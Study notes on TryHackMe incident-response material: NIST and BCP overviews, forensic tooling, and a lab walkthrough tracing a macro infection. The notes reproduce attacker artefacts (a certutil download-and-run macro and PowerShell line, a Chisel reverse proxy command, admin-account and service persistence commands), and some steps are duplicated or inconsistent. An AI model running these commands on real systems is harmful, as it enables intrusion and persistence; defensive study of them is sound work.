






# One of:TryHackMe:IncidentResponder:TryHackMe:Scenario

`Consider It as an Ethical Hacking!`

Getting thrown into the process in the middle of an emergency, with panic and urgency pushing us to find a solution ASAP (yes, it's yelled), we might lose sight of the big picture and forget one of the main goals of an incident response cycle: to feed new information to the next cycle. Thus, it's crucial that we document every step we take and every new information we gather. As incident responders, we must always remember that we have a double goal: to eradicate the threat and prevent it from impacting our organisation a second time.

As incident responders, we are usually called to `action` in the middle of the `Detection and Analysis` of the NIST Incident Response Framework.

The goal of an effective preparation phase is to develop an: `Incident Response Plan (IRP)`

## NIST

Organisations that need to define their incident response processes in a complete and effective manner can refer to two of the most commonly used frameworks, released respectively by the **NIST** (National Institute of Standards and Technology) and by **SANS** (Sysadmin, Audit, Network, and Security), a private organisation that focuses on researching cyber security topics.

The NIST Incident Response Framework involves 4 steps:

**Preparation:** Establishing and maintaining an incident response capability.

**Detection and Analysis:** Identifying and understanding the scope and impact of an incident.

**Containment, Eradication, and Recovery:** Limiting the incident's impact, eliminating the threat, and restoring normal operations.

**Post-Incident Activity:** Reviewing and improving the incident response process and documentation.

## Flowchart

{ width=450 height=600 align=center }

**You have served your role as first responder and the blue team, what do you do for react to a incident?**

1. Preservation of Evidence
2. Alerting the Relevant Stakeholders
3. Isolation of the Incident
4. Business Continuity Plan
5. Documentation of Actions
6. Handing Over

## Example

Imagine: We found out a suspicious IP and Port.

This combination of IP and port is a useful indicator of compromise (IoC)e.g., threat hunting using file hashes. With it, we can perform various actions.
For example:

1. Immediately **block the IP** with a rule on the organisation's front-end firewall to prevent communication with the C2.
2. Search for the IP in the organisation's **network traffic logs** to hunt for other occurrences of the malware within the organisation's infrastructure.
3. Feed the IoC to a monitoring **rule on the SIEM** to proactively detect any later infection from the same malware.
4. Implementing an EDR solution(adding the hash to an EDR blocklist ) able to detect the kind of threat that we just faced (crypto miners and malicious macros).

## Toolset

The toolset needed for this task is focused on analysing Sysmon Logs, Windows Event Logs, and Packet Capture.

## Endpoint Logs

To analyse Windows artefacts such as Windows Event Logs and Sysmon logs, we will use the following tools:

1. EvtxEcmd
2. Timeline Explorer
3. SysmonView
4. Event Viewer
5. Network Logs

To analyse the provided packet capture, we will use the following tools:

1. Wireshark
2. Brim

---

## BCP vs DRP

| **Aspect**     | **Description**                                                                                                                                                                                         |
| -------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **BCP vs DRP** | **BCP**: Comprehensive plan covering business operations, communication, and stakeholder engagement. <br> **DRP**: Focuses specifically on technical recovery of IT systems; generally part of the BCP. |

| **Steps to Create a BCP**                    | **Description**                                                                                                                     |
| -------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------- |
| **1. Perform a Business Impact Analysis**    | Analyze potential worst-case scenarios to assess impacts on organization and customers using qualitative and quantitative measures. |
| **2. Define the Potential Recovery Actions** | Identify and document recovery actions for various scenarios to facilitate faster recovery during incidents.                        |
| **3. Plan the BCP Team Structure**           | Define roles and responsibilities for team members during BCP activation and document necessary details.                            |
| **4. Test the BCP Plan**                     | Train the team and conduct tabletop exercises to ensure the BCP functions as intended.                                              |

| **BCP Metrics**                       | **Description**                                                                   |
| ------------------------------------- | --------------------------------------------------------------------------------- |
| **Recovery Point Objective (RPO)**    | Acceptable amount of data loss; dictates backup frequency (e.g., hourly backups). |
| **Recovery Time Objective (RTO)**     | Time required to recover system hardware.                                         |
| **Work Recovery Time (WRT)**          | Time required to recover software and data.                                       |
| **Maximum Tolerable Downtime (MTD)**  | Maximum acceptable downtime; RTO + WRT should not exceed this threshold.          |
| **Mean Time Between Failures (MTBF)** | Average operational time between system incidents.                                |
| **Mean Time To Repair (MTTR)**        | Average time required to recover the system after an incident.                    |

---

## One of:Scenario:Macro

### STAR

| **STAR Component** | **Description**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| ------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Situation**      | During an analysis of malware spread through a malicious Word document containing a VBA macro, I encountered multiple indicators of a security incident including network communication and privilege escalation events.                                                                                                                                                                                                                                                                                                                                                         |
| **Task**           | Investigate the macro's behavior and subsequent commands executed to gain system privileges. Analyze logs using tools like EvtxECmd, Timeline Explorer, SysmonView, and Brim to document the infection vector and impact.                                                                                                                                                                                                                                                                                                                                                        |
| **Action**         | 1. Exported and analyzed Sysmon logs using `EvtxECmd` and viewed them in `Timeline Explorer` for trackable events. <br> 2. Utilized SysmonView to visualize event correlations. <br> 3. Executed malicious PowerShell commands noted (`certutil` for downloading files) to investigate their impact. <br> 4. Examined network traffic for suspicious outbound connections and listening ports, identifying `5985` for remote shell access. <br> 5. Filtered HTTP requests in Brim for malicious C2 traffic and recorded event IDs for account creation and privilege escalation. |
| **Result**         | Enhanced the understanding of malware installation and privilege escalation mechanisms. Documented logs through `EvtxECmd`, improved detection protocols by learning to identify malicious C2 traffic patterns, and established a clearer picture of events leading to system compromise, including the identification of important event IDs such as `4720` for account creation. Recommended system security enhancements based on the analysis.                                                                                                                               |

#### Additional Points to Note

- **Timeline Analysis**: Use of `Timeline Explorer` to visualize event sequences for deeper insights into the malware operation and effects.
- **Sysmon Logs**: Leveraged Windows' Sysmon tool to get extensive logging data of system events and communications for analysis.
- **Network Activity**: Monitored and analyzed listening ports which led to the discovery of a reverse socks proxy established by the attacker for internal access.
- **Privileges and Accounts**: Identified and documented the exploitation of `SeImpersonatePrivilege` by the attacker, including relevant event IDs for account creation and group modification.

### Walk-Through

{ width=450 height=450 align=center }

User expect to open a wordfile.docm.
The macro, named AutoOpen, executes automatically when the document is opened.

1. It immediately checks if a process with a name that matches the malware is already running. In this case, it terminates.
   If there is no such process, the macro leverages certutil to download the malware from a specific URL, and saves it to a temporary directory.
2. It then stealthily executes the malware from a hidden command prompt.
   In the same stealthy manner, the macro finally ensures persistence by adding the malware to the Run registry key. This will allow T
3. It immediately checks if a process with a name that matches the malware is already running. In this case, it terminates.
   If there is no such process, the macro leverages certutil to download the malware from a specific URL, and saves it to a temporary directory.
4. It then stealthily executes the malware from a hidden command prompt.
   In the same stealthy manner, the macro finally ensures persistence by adding the malware to the Run registry key. This will allow the malware to be executed every time the user logs into the system, even after reboot.

```vb
Sub AutoOpen()
    Dim strURL As String
    Dim strFilePath As String
    Dim strCmd As String

    If GetObject("winmgmts:\\.\root\cimv2").ExecQuery("SELECT * FROM Win32_Process WHERE Name = '32th4ckm3.exe'").Count > 0 Then Exit Sub
    ...
    strCmd = "cmd /c reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v DefaultApp /t REG_SZ /d """ & strFilePath & """ /f"
    Shell strCmd, vbHide
End Sub


Sub Wait(seconds As Single)
    Dim endTime As Single
    endTime = Timer + seconds
    Do While Timer < endTime
        DoEvents
    Loop
End Sub
```

The macro you've provided appears to be a form of malware, specifically designed to download and execute a malicious executable file from a remote server when the Word document is opened. Here’s a breakdown of how the infection vector functions:

1. **AutoOpen Trigger**: The `Sub AutoOpen()` procedure is automatically executed when the Word document containing the macro is opened.

2. **Process Check**: The macro first checks if a specific process (`3d33es454e.exe`) is already running using Windows Management Instrumentation (WMI). If it finds that the process is already running, it exits the macro to avoid executing the payload multiple times.

3. **Download Malicious Payload**:

   - It sets `strURL` to a remote URL (in this case, `http://ip/3d33es454e.exe`), which is where the malicious executable is located.
   - `strFilePath` sets the file path in the temp directory where the executable will be saved.
   - It constructs a command to download the executable using `certutil`, a legitimate Windows utility for handling certificates, that’s being misused here for the download purpose.

4. **Execute the Downloaded File**: Once the file is downloaded, it's executed silently using `Shell strFilePath, vbHide`, which runs it in the background without showing any window.

5. **Persistence Mechanism**: The macro then adds a registry entry under `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`, which ensures that the downloaded executable (`3d33es454e.exe`) gets executed every time the user logs in to Windows. This is a common technique to maintain persistence after the initial execution.

6. **Wait Function**: The `Wait` subroutine is included to introduce a delay before executing the downloaded file, likely to allow the download to complete.

Feeding the IoCs to monitoring tools—for example, adding the hash to an EDR blocklist or creating a SIEM rule to detect connection attempts to the URLs or the C2 IP—will prevent later infection from the same threat.

### Infection Vector Summary

In summary, this Word macro uses the document opening as a trigger to:

- Check if a specific malicious process is running.
- Download a malicious executable from a remote server.
- Execute the downloaded file.
- Create a registry entry to ensure that it runs on startup.

This is a classic example of how attackers use macros in Office documents as infection vectors to deliver payloads that compromise user machines.

---

## One of:Scenario:Events

### Sequential

All the time We would follow below sequential:

- [x] Executed Binary Files and Tools of Attacker.
- [x] Finding Port and IP Attacker.
- [x] Finding ran services Attacker.
- [x] Finding process and sub processes of Attacker.
- [x] Finding Events of Attacker.

{ width=600 height=450 align=center }

```
C:\Users\user> cd '.\Desktop\Incident Files\'
Get-FileHash -Algorithm SHA256 .\capture.pcapng
```

### EvtxEcmd & Timeline Explorer

```
.\EvtxECmd.exe -f ...
```

For TimelineExplorer.exe, we can load the exported CSV file by doing the following: File > Open > Choose sysmon.csv from C:\Users\user\Desktop\Incident Files directory

{ width=450 height=450 align=center }
<p align="center">
  Google: "msdt.exe Windows CVE", you will find CVE code.
</p>

### SysmonView

Windows GUI-based tool that visualises Sysmon Logs.

Before using this tool, we must export the log file's contents into XML via Event Viewer. This tool can easily view the correlated events from a specific process.

## Brim

{ width=450 height=600 align=center }

<p align="center">  
  The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user?
</p>

```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe
```

{ width=400 height=600 align=center }
<p align="center">
 The stage 2 payload downloaded establishes a connection to a c2 server. What is the domain and port used by the attacker?
</p>

{ width=400 height=600 align=center }

Brim Filter:

```
_path=="http" "resolvecyber.xyz" id.resp_p==<replace port> | cut ts, host, id.resp_p, uri | sort ts
```

{ width=400 height=600 align=center }

<p align="center">
  The attacker was able to discover a sensitive file inside the machine of the user. What is the password discovered on the aforementioned file?
</p>

```

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       864
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5508
  TCP    0.0.0.0:5357           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:**5985**           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       4964
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       476
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1212
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1760
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2424
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:49676          0.0.0.0:0              LISTENING       608
  TCP    ip:139    0.0.0.0:0              LISTENING       4
  TCP    ip:51802  52.139.250.253:443     ESTABLISHED     3216
  TCP    ip:51839  34.104.35.123:80       TIME_WAIT       0
  TCP    ip:51858  104.101.22.128:80      TIME_WAIT       0
  TCP    ip:51860  20.205.146.149:443     TIME_WAIT       0
  TCP    ip:51861  204.79.197.200:443     ESTABLISHED     4352
  TCP    ip:51871  20.190.144.169:443     TIME_WAIT       0
  TCP    ip:51876  52.178.17.2:443        ESTABLISHED     4388
  TCP    ip:51878  20.60.178.36:443       ESTABLISHED     4388
  TCP    ip:51881  52.109.124.115:443     ESTABLISHED     4388
  TCP    ip:51882  52.139.154.55:443      ESTABLISHED     4388
  TCP    ip:51884  40.119.211.203:443     ESTABLISHED     4388
  TCP    ip:51895  52.152.90.172:443      ESTABLISHED     5508
  TCP    ip:51896  20.44.229.112:443      ESTABLISHED     8904
```

The attacker then enumerated the list of listening ports inside the machine. Listening port that could provide a remote shell inside the machine is `5985`

The attacker then established a reverse socks proxy to access the internal services hosted inside the machine. follow command executed by the attacker to establish the connection:

```
"C:\Users\benimaru\Downloads\ch.exe" client 167.71.199.191:8080 R:socks
```

{ width=450 height=450 align=center }

<p align="center">
  The attacker then established a reverse socks proxy to access the internal services hosted inside the machine. What is the command executed by the attacker to establish the connection
</p>

VirusTotal: `Chisel` is the name of the tool used by the attacker based on the SHA256 hash.

{ width=450 height=450 align=center }

<p align="center">
The attacker then used the harvested credentials from the machine. Based on the succeeding process after the execution of the socks proxy, what service did the attacker use to authenticate?
</p>

{ width=450 height=450 align=center }

<p align="center">  
After discovering the privileges of the current user, the attacker then downloaded another binary to be used for privilege escalation. What is the name and the SHA256 hash of the binary?
</p>

{ width=450 height=450 align=center }

<p align="center">  
Based on the SHA256 hash of the binary, what is the name of the tool used?
</p>

The tool exploits a specific privilege owned by the user. The name of the privilege is `SeImpersonatePrivilege`

{ width=450 height=450 align=center }

<p align="center">  
Then, the attacker executed the tool with another binary to establish a c2 connection. What is the name of the binary?
</p>

The binary connects to a different port from the first c2 connection which is `8080`.

Now, we can rely on our cheatsheet to investigate events after a successful privilege escalation:

Useful Brim filter to get all HTTP requests related to the malicious C2 traffic :

```
_path=="http" "" id.resp_p==<replace port> | cut ts, host, id.resp_p, uri | sort ts
```

The attacker gained SYSTEM privileges; now, the user context for each malicious execution blends with NT Authority\System.
All child events of the new malicious binary used for C2 are worth checking.

{ width=450 height=450 align=center }

<p align="center">
Upon achieving SYSTEM access, the attacker then created two users. What are the account names?
</p>

Hint: External research needed. Find out what event ID logs successful account creation.

{ width=450 height=450 align=center }

<p align="center">  
Upon achieving SYSTEM access, the attacker then created two users. What are the account names?
</p>

Based on windows event logs, the accounts were successfully created. `4720` is the event ID that indicates the account creation activity.

{ width=350 height=600 align=center }

<p align="center">  
The attacker added one of the accounts in the local administrator's group. What is the command used by the attacker?
</p>

`net localgroup administrators /add shion`

Hint: External research needed. Find out what event ID logs successful addition to a local group.

{ width=400 height=600 align=center }

Based on windows event logs, the account was successfully added to a sensitive group. What is the event ID that indicates the addition to a sensitive local group?
</p>

{ width=500 height=650 align=center }

<p align="center">  
After the account creation, the attacker executed a technique to establish persistent administrative access. What is the command executed by the attacker to achieve this?
</p>

`Executable Info C:\Windows\system32\sc.exe\\TEMPEST create TempestUpdate binpath= C:\ProgramData\final.exe start= auto`
